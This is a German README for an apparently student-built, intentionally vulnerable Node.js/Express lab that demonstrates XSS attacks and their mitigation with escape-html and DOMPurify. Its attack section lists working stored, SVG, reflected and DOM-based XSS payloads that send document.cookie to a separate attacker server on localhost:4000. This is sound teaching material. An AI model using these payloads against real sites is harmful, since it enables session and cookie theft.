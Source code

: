 # Webanwendung zur Analyse und Prävention von Cross-Site-Scripting (XSS) Angriffen

Diese Webanwendung wurde im Rahmen einer Bachelorarbeit entwickelt, um XSS-Schwachstellen zu identifizieren und effektive Gegenmaßnahmen zu implementieren. Die Anwendung bietet eine Plattform, auf der verschiedene XSS-Angriffsszenarien simuliert und getestet werden können.

## Inhalt
- [Einleitung](#einleitung)
- [Technologie-Stack](#technologie-stack)
- [Installation](#installation)
- [Nutzung](#nutzung)
- [Struktur der Anwendung](#struktur-der-anwendung)
- [Mögliche Attacken](#mögliche-attacken)
- [Anmekrung](#anmerkung)
- [Lizenz](#lizenz)

## Einleitung

Diese Anwendung dient als Demonstrations- und Testumgebung für verschiedene XSS-Angriffe und die dazugehörigen Schutzmaßnahmen. 
Sie wurde entwickelt, um die Sicherheitsanforderungen moderner Webanwendungen zu untersuchen und um praxisnahe Lösungen für XSS-Probleme zu bieten.


## Technologie-Stack

### Backend
- **Node.js**: Laufzeitumgebung für serverseitiges JavaScript
- **Express.js**: Webframework für Node.js zur Erstellung von Webanwendungen und APIs
- **MongoDB**: NoSQL-Datenbank zur Speicherung von Daten
- **Mongoose**: Objekt-Datenmodellierungstool für MongoDB und Node.js

### Frontend
- **HTML**: Strukturierung der Webseite
- **CSS**: Gestaltung der Webseite
- **Bootstrap**: CSS-Framework zur schnellen Gestaltung von responsiven Webanwendungen

## Installation

1. **Repository klonen:**
   ```bash
   git clone https://github.com/Bemast3r/XSS.git
2. **Ordner wechsel**
   ```bash
   cd XSS
3.  **Alles nötige installieren:**
    ```bash
    npm run update
4. **Server starten:**
Der Befehl `npm start` im Root-Ordner startet sowohl den Angreifer-Server als auch den Webanwendungs-Server:
    ```bash
    npm run start
Für das jeweilige Starten der Server kann dies erreicht werden in dem man in den jeweiligen Ordner gewechselt wird.

## Nutzung

Diese Webanwendung bietet die Möglichkeit, zwischen verschiedenen Branches zu wechseln, die unterschiedliche XSS-Gegenmaßnahmen implementieren:

- main Branch: Keine Gegenmaßnahme implementiert. Dieser Branch dient als Ausgangspunkt zur Untersuchung von XSS-Angriffen ohne Schutzmechanismen.
- html-escape Branch: In diesem Branch wird die Bibliothek escape-html verwendet, um Benutzereingaben zu entschärfen und somit XSS-Angriffe zu verhindern.
- DOMPURIFY Branch: Dieser Branch verwendet die Bibliothek DOMPurify, um potenziell gefährliche HTML-Eingaben zu bereinigen und XSS-Angriffe zu verhindern.

## Struktur der Anwendung

- **Attacker**: Beinhaltet den Hacker-Server
- **backend**: Ist der Backend-Server der Webanwendung
- **frontend**: Ist das Frontend und beinhaltet die HTML-Seiten

## Mögliche Attacken

- Stored XSS 
    - Ort: Biografiefeld im User Profile
    - Test-XSS-Payload: 
        - ``<img src="invalid_image.png" onerror="this.src='http://localhost:4000/xss_bild?cookie=' + encodeURIComponent(document.cookie);">``

- Stored XSS via SVG
    - Ort: Community.html
    - Vorbereitung:
      Zuerst muss eine SVG-Datei erstellt werden:
    - Test-XSS-SVG-Payload:
        ```html
        <svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
            <image xlink:href="x" onerror="javascript:window.location='http://localhost:4000/xss_bild?cookie=' + encodeURIComponent(document.cookie);"/>
        </svg>
        ```
    - Anschließend diese Datei über das Uploadfeld hochladen

- Reflected XSS
        - Ort: Search 
    - Test-XSS-Payload: 
        - ``<audio src=1 href=1 onerror="javascript:http://localhost:4000/xss_bild?cookie=' + encodeURIComponent(document.cookie);"></audio>``
- DOM-BASED XSS
        - Ort: EchoInput - Eingabefeld
    - Test-XSS-Payload: 
        - In Browser Suchleiste:    
            - ``http://localhost:3000/Echoinput.html?input=%3Cimg+src%3D+%22keinbild%22onerror%3D%22javascript%3Awindow.location%3D%27http%3A%2F%2Flocalhost%3A4000%2Fxss%3Fcookie%3D%27+%2B+encodeURIComponent%28document.cookie%29%3B%22%3E%3C%2Fimg%3E``

## Anmerkung

Die Payloads sind ebenfalls in der Datei `xss_payload.txt` zu finden. Diese Datei befindet sich im Verzeichnis `Attacker/src/xss_payload.txt`.


## Lizenz
Dieses Projekt ist unter der MIT-Lizenz lizenziert.
